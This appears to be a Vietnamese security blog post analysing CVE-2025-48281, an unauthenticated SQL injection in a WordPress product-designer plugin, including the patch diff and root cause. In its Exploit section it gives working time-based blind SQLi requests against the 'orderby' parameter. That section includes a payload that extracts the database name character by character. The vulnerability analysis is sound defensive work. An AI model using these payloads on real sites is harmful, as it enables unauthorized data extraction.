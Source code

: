 ```yaml
---
title: CVE-2025-48281 Analysis & POC
description: Security Vulnerability in WordPress MyStyle Custom Product Designer Plugin.
date: 2025-09-27 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

Lỗ hổng tồn tại trong plugin **MyStyle Custom Product Designer** của WordPress trước phiên bản **3.21.2**. Lỗ hổng này cho phép kẻ tấn công tương tác trực tiếp với cơ sở dữ liệu, bao gồm khả năng trích xuất hoặc thao túng dữ liệu.

* **CVE ID**: [CVE-2025-48281](https://www.cve.org/CVERecord?id=CVE-2025-48281)
* **Sản phẩm**: [WordPress MyStyle Custom Product Designer Plugin](https://wordpress.org/plugins/mystyle-custom-product-designer)
* **Loại lỗ hổng**: SQL Injection
* **Phiên bản bị ảnh hưởng**: <= 3.21.1
* **Mức độ nghiêm trọng (CVSS)**: Cao (9.3)
* **Yêu cầu đặc quyền**: Không cần xác thực

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **MyStyle Custom Product Designer**: v3.21.1 (có lỗ hổng) và v3.21.2 (đã vá)
* **Công cụ diff**: **meld** hoặc bất kỳ công cụ so sánh phiên bản nào
* **WooCommerce plugin**: phải được kích hoạt trước khi cài đặt MyStyle vì plugin này sử dụng một số hàm từ WooCommerce

## Analysis

Nguyên nhân chính là việc ứng dụng chèn trực tiếp dữ liệu từ tham số **GET** vào câu truy vấn SQL mà không có biện pháp xác thực hợp lệ.

### Patch Diff

Dưới đây là sự khác biệt giữa hai phiên bản (3.21.1 và 3.21.2) trong file **includes/entities/class-mystyle-designmanager.php**.

{{< figure src="patch_diff.png" caption="So sánh bản vá" alt="Bản vá khác biệt" >}}

Bản vá mới đã thêm danh sách **whitelist** `$allowed_orderby` để chỉ cho phép sắp xếp theo các cột hợp lệ. Nếu giá trị `orderby` không nằm trong danh sách, nó sẽ tự động bị thay thế bằng `'ms_design_id'`, ngăn chặn chèn mã độc SQL.

## How it works

Lỗ hổng nằm trong hàm `get_designs` thuộc class `MyStyle_DesignManager` (file **includes/entities/class-mystyle-designmanager.php**).
Hàm này được gọi bởi các hàm như `get_items`, `init_index_request`, và một số hàm kiểm thử.

{{< figure src="search_1.png" caption="Kết quả tìm kiếm get_designs" alt="Tìm kiếm hàm get_designs" >}}

Vì đây là lỗ hổng **unauthenticated**, cần xác định hàm nào có thể được gọi mà không yêu cầu đăng nhập.
Kết quả cho thấy chỉ có `init_index_request` có thể bị khai thác trực tiếp qua URL `/designs/`.

{{< figure src="chart.png" caption="Luồng tấn công logic" alt="Luồng xử lý" >}}

## Exploit

### Kiểm tra SQLi

Gửi request chứa payload SQLi để kiểm tra:

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Câu truy vấn kết quả:

```sql
SELECT * FROM wp_mystyle_designs WHERE ms_access = 0 ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25 OFFSET 0
```

Nếu phản hồi chậm 5 giây → payload hoạt động.

{{< figure src="time_resp.png" caption="Kiểm tra độ trễ thời gian" alt="Kết quả phản hồi thời gian" >}}

> Không thêm dấu comment (`--`) sau `SLEEP()` vì sẽ khiến SQL parser lỗi do xuống dòng giữa `ASC` và `OFFSET`.

{{< figure src="debug.png" caption="Debug lỗi" alt="Debug lỗi cú pháp" >}}

### Lấy ký tự đầu tiên của tên cơ sở dữ liệu

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Nếu phản hồi chậm → ký tự đầu tiên của tên database là **w**.
Kỹ thuật này có thể được mở rộng để trích xuất toàn bộ tên cơ sở dữ liệu hoặc bảng dữ liệu.

## Conclusion

Lỗ hổng **CVE-2025-48281** trong plugin **MyStyle Custom Product Designer** (<= 3.21.1) xuất phát từ việc đưa trực tiếp dữ liệu người dùng vào truy vấn SQL mà không xác thực đúng cách.

Bản vá **3.21.2** đã khắc phục bằng cách áp dụng danh sách cột cho phép (`whitelist`) và kiểm tra giá trị đầu vào.

**Bài học rút ra:**

* Luôn xác thực dữ liệu đầu vào.
* Khi làm việc với cơ sở dữ liệu trong WordPress, **bắt buộc dùng `$wpdb->prepare()`**.
* Thường xuyên cập nhật plugin để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)

